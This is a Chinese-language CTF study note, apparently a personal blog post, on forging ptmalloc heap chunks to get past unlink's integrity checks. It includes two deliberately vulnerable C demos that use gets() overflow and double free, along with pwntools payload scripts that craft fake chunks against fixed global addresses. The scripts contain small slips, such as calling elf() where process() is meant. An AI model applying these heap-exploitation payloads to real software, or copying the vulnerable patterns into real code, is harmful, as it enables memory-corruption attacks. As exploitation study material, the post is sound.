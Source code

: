 ```yaml
---
layout:     post
title:      "ptmalloc堆块伪造"
subtitle:   "基于unlink的check机制"
date:       2018-07-11 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - Linux
    - 笔记
 
---
```


## 0x00 原理
1.ptmalloc的相邻空块合并原则。

2.堆chunk本身的结构机制。

## 0x01 详解
堆chunk判断一个块是否为空仅仅依赖于相邻后块的**prev_size**和**最低flag位**。
如果在堆上构造合理的堆块结构，那么堆管理机制就会误以为我们的伪造的堆块是真正的空堆块。
当释放掉相邻的后块时（这个块是真的），就会触发空块合并。也就达成了堆块伪造的目的。

## 0x02 要求

有check的堆溢出利用。

* 有两个相邻的堆块
* 第一个堆块可溢出第二个
* 释放第二个堆，即可触发。

或者

* 有一个已分配的堆
* 有一个指向堆上的可控指针
* free参数可控

这种情况下，是在分配的一大块堆中强行构造出两块chunk。然后利用那个指向堆上的可控指针来实现free触发漏洞。
这其实是一种double free的利用方式，因为如果你分配了两块堆，然后把这两块堆都释放之后，这些内存会合并到top chunk中。当再次分配堆的时候，还是使用这些内存地址。

那么如果我们进行以下操作：



	1.分配两个堆
	2.释放掉这两个堆
	3.分配一个可以包含住前面两个堆的大堆块
	4.写入这个大堆块构造两个伪chunk
	5.通过第2步中释放两个堆

这样对于初始的两个堆来说，就像是double free了，当然本质还是堆块伪造。

## 0x03 效果

如果成功的使用了伪造堆，那么达到的效果是什么呢？首先，是不可能像unlink利用一样任意地址写了。
因为对于目前的ptmalloc来说，有如下check：
current->fd->bd!=current;
current->bd->fd!=current;
为了过掉这个检验我们会用一个指向堆块的全局指针的地址的一个偏移作为伪chunk的fd。
fd=ptr-12;
bd=ptr-8;
然后在断链的过程中，就会把**ptr**的值改成**&ptr-12**,感觉很鸡肋是吧？
毕竟费这么大力气只是把一个全局变量的值给改成了他的地址－0xC，但是这个东西确实是这么去利用的。
在CTF中会跟其他的漏洞或功能结合去使用。


## 0x04 演示

为了具体的说明问题，这里写了两个demo演示效果。

#### Demo1


	void *global[80];
	
	void *global[80];
	
	int main(void)
	{
	    void *p1,*p2;
	    p1=malloc(200);
	    p2=malloc(200);
	    global[40]=p1;
	    printf("before exploit:%x\n",global[40]);
	    puts("read");//for debug
	    gets(p1);//overflow
	    free(p2);
	    printf("after exploit:%x\n",global[40]);
	    return 0;
	}


这是对应于第一种堆溢出覆盖下一块堆的情况的，如果使用下面的exp就会发现global中malloc返回的地址已经变成了 global[40]本身的地址－0xC

	from pwn import*
	io=elf('./demo1')
	io.recvuntil('read')
	sc=p32(0x0)+p32(0xc9)+p32(0x804A100-0xc)+p32(0x0804A100-0x8)+'a'*(200-16)+p32(0xc8)+p32(0xd0)
	io.sendline(sc)
	io.read()


#### Demo2

	int *global[40];
	int main(void)
	{
	  void *p1,*p2,*p3;
	  p1=malloc(200);
	  p2=malloc(200);
	  global[20]=p1;
	  free(p1);
	  free(p2);
	  p3=malloc(500);
	  puts("get"); #for debug
	  gets(p3);
	  free(p2);
	  return;
	}

这个Demo展示的是double free。可以看到对于p2指针来说确实是释放了两次。


	from pwn import*
	io=elf('./demo2')
	io.recvuntil('get')
	sc=p32(0x0)+p32(201)+p32(0x804a0b0-0xC)+p32(0x804a0b0-0x8)+'a'*(200-16)+p32(200)+p32(0x128)
	io.sendline(sc)
	io.read()





